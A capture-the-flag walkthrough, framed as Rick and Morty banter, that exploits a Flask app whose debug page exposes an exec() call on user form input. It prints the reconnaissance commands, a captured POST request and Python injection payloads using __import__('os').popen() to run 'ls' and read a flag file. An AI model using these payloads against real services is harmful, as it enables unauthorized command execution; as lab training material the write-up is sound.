



Geez Rick, this challenge kinda pissed me off.

Yea Morty, I feel you. It was like right there, right there in front our faces Morty. In front of our damn faces!!

## 1. Enumeration

Alright, first things first, lets kick off some scans while we browse the web page.

`nikto -h http://142.93.45.112:32113`

`dirb http://142.93.45.112:32113 -r`

While those were running, I went ahead and started browsing the page.


At first it appeared as though there was nothing too special about the site. After refreshing it, I noticed the number changed under the picture of the two interdimensional travelers.


So this lets me know the page is not necessarily static, but is being dynamically generated somehow. Also, my scans were taking forever and nothing was really returning, so I stopped those.

Lets turn to our trusty developer tools via Firefox and see if we can get anything new from there.

Well why dont ya look at that, looks like we might have something at `/debug`



Also noticed the response from the server...



So it looks like we have some Flask involved, and after navigating to `http://142.93.45.112:32113/debug/`, Flask is confirmed. With the confirmation of Flask runnin, it  just lets us know its a Python based web server.



## 2. Exploiting Python Exec

First thing that stands out after reviewing the debug page is in the function `calc`. But we cant get ahead of ourselves so we keep looking at the code.

```
def calc(recipe):
  global garage
  garage = {}
  try: exec(recipe, garage)
  except: pass
```

Further investigation of the code reveals that the number seen on the landing page is randomly generated on the first two lines within the `federation` function. A line down, we see a condition involving a `POST` request.

```
if request.method == 'POST':
            ingredient = request.form.get('ingredient', '')
            recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))
```

It appears if we submit a `POST` request and supply values to both the `ingredient` and `measurements` parameters, we can control the number that appears on the main page. After intercepting and modifying the request via Burp, we have successfully taken control of the number.

```
POST / HTTP/1.1
Host: 142.93.45.112:32113
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://142.93.45.112:32113/
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Connection: close
Upgrade-Insecure-Requests: 1

ingredient=plumbus&measurements=137
```


Now its time to see if we can get some code execution on the box. Lets change the `measurements` variable since, it appears to be the varible thats getting supplied to the webpage.

```
ingredient=plumbus&measurements=eval('__import__(\'os\').popen(\'ls\').read()')
```

Before we go forward, lets talk about why I supplied the value I did. So first, I tried supplying commands straight into the `measurements` parameter but I kept getting a blank page back. Sooooo, after some digging, I found that while the `exec()` might be able to execute code, it doesnt return the result , unless specified, like `eval()` does. Heres some links talkin about it:

-[Kinda Explanin](https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1)

-[Kinda Deep Explanation](https://www.code-learner.com/what-is-the-differences-between-python-eval-and-exec-function/)

Back to this walkthrough, we have remote code execution Morty.


Now lets switch up the command. Gonna just read the flag since it returned in the last POST request.
```
ingredient=whoami&measurements=eval('__import__(\'os\').popen(\'cat+flag\').read()')
```


## 5. Conclusion
